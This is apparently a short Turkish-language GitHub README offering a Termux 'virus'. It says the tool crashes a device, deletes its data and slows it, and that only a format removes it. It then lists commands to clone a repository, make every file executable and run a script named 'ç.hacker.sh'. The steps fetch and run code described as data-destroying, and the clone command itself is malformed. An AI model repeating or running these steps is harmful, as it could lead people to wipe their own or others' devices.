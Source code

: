 /////////////////////////////////////////
sorumluluk kulanıcıya aitir////////////////
///////////////////////////////////////////
vürüs hakında 
////////////////////////
 vürüs cihazı çökertiyor.
___________________________
cihazın verilerini siliyor.
___________________________
cıhazı yavaşlatıyor
____________________________
 Not :vürüsü silmenin tek yolu cihaza format atmaktır.
vürüsü aktifleştirmek için
_____________
pkg install git
______________
git klon https://github.com/termuxhackt/termux.sh/new/main
_____________________________________________________________
ls
______________________________________________
cd termux.sh
______________
ls
_______________
chmod +x *
________________
ls
__________________
bash ç.hacker.sh
________________________________________
